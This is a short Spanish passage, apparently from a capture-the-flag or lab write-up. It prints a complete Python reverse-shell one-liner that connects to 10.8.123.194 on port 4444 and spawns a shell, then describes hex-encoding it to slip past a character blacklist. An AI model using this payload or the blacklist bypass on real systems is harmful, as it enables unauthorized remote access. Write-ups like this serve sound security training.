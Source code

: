 ![](/assets/images/dopsty/image023.png)

Luego, de probar varios payloads, nos encontramos con un payload en Python, `python -c 'import socket, subprocess, os;s=socket. socket (socket.AF_INET, socket. SOCK_STREAM);s.connect(("10.8.123.194",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")',` que contiene algunos caracteres que son prohibidos debido al blacklist configurado. Por lo que, para omitir este filtro, utilizaremos la codificación hexadecimal sobre nuestro payload.

![](/assets/images/dopsty/image024.png)
